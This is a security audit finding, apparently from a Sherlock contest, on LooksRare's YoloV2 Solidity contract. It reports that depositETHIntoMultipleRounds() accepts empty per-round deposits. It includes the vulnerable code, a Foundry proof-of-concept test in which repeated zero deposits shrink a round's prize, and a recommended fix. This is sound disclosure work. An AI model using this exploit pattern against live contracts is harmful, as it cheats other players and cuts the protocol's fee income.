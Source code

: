 Breezy Ebony Whale

high

# depositETHIntoMultipleRounds() allows for empty deposit within round

## Summary

The `depositETHIntoMultipleRounds()` function is meant to deposit Ether within multiple rounds, however it fails to properly validate each Ether amount specified for each round. Thus, it allows malicious player to add empty deposits to rounds at choice. Empty deposit itself does not give a chance to win a round for such player. However, firstly by exploiting this vulnerability the player can select rounds willing to play with and which might be most beneficial for him/her without bearing additional costs. Secondly, empty deposit decreases the overall award prize for the winner along with the fee accrued for the solution's owner as the number of deposits is limited. 

## Vulnerability Detail

Firstly, the `depositETHIntoMultipleRounds()` function validates whether any Ether is provided within the call. Thus, player must provide at least an amount equal to `roundValuePerEntry` .

[acts/YoloV2.sol#L314
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L314)

```solidity
    function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
        uint256 numberOfRounds = amounts.length;
        if (msg.value == 0 || numberOfRounds == 0) {
            revert ZeroDeposits();
        }
[...]
```

Then, the function checks whether the amount provided for particular round is a multiple of `roundValuePerEntry` by means of modulo operation. However, for empty `depositAmount` the modulo operation returns 0, so it bypasses the assertion.

[acts/YoloV2.sol#L338
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338)

```solidity
[...]
            uint256 depositAmount = amounts[i];
            if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;
[...]
```

Such deposit with empty amount is considered valid and accepted by the algorithm.

## Proof of Concept 

Below PoC presents scenario, where legitimate player deposits 1 Ether in first round and 10 Ether in second round. Then malicious player perform multiple deposits for first and second rounds, but first round has 0 amount set, as second round appears to be potentially more beneficial. Whenever the first round ends, the legitimate player is selected as winner. However, in this case winner receives back only 0.97 Ether, where 0.03 of Ether is consumed by fees.

```solidity
function test_gsec_depositETHIntoMultipleRounds_multiple_0_deposits_possible() public {
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1 ether;
        amounts[1] = 10 ether;

        vm.deal(user1, 11 ether); 
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: 11 ether}(amounts);

        amounts[0] = 0 ether;
        amounts[1] = 2 ether / 100; 

        for (uint256 i = 0; i < 99; i++) {
            vm.deal(user2, 2 ether / 100);
            vm.prank(user2);
            yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);
        }

        (IYoloV2.RoundStatus status,,uint16 protocolFeeBp,,uint40 drawnAt,uint40 numberOfParticipants,address winner,uint96 valuePerEntry,uint256 protocolFeeOwed,IYoloV2.Deposit[] memory deposits) = yolo.getRound(1);

        assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawing));

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;

        expectEmitCheckAll();
        emit RoundStatusUpdated(1, IYoloV2.RoundStatus.Drawn);

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        (status,,,,drawnAt,,winner,,protocolFeeOwed,deposits) = yolo.getRound(1);

        assertEq(uint8(status),  uint8(IYoloV2.RoundStatus.Drawn));
        assertEq(protocolFeeOwed, 3 ether / 100);
        assertEq(winner, user1);

        uint256[] memory prizesIndices = new uint256[](4);
        prizesIndices[0] = 0;
        prizesIndices[1] = 1;
        prizesIndices[2] = 98;
        prizesIndices[3] = 99;
        IYoloV2.WithdrawalCalldata[] memory withdrawalCalldata = new IYoloV2.WithdrawalCalldata[](1);
        withdrawalCalldata[0].roundId = 1;
        withdrawalCalldata[0].depositIndices = prizesIndices;

        assertEq(user1.balance, 0);
        vm.prank(user1);
        yolo.claimPrizes(withdrawalCalldata, false);
        assertEq(user1.balance, 97 ether / 100);
    }
```

## Impact

- Malicious player can abuse this function to make Ether deposits in future rounds without the need of playing in previous rounds whenever it will be considered beneficial for him/her.
- Legitimate players can win decreased overall prize award within the round due to empty deposits.
- Solution's owner can not receive minimum possible fee for such round, as empty deposit does not accrue fee.

## Code Snippet

[acts/YoloV2.sol#L338
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338)

## Tool used

Manual Review, Foundry.

## Recommendation

It is recommended to verify whether each `depositAmount` is a value larger than 0, to enforce player to play fairly in each round.

```solidity
[...]
            uint256 depositAmount = amounts[i];
            if (depositAmount == 0 || depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;
[...]
```
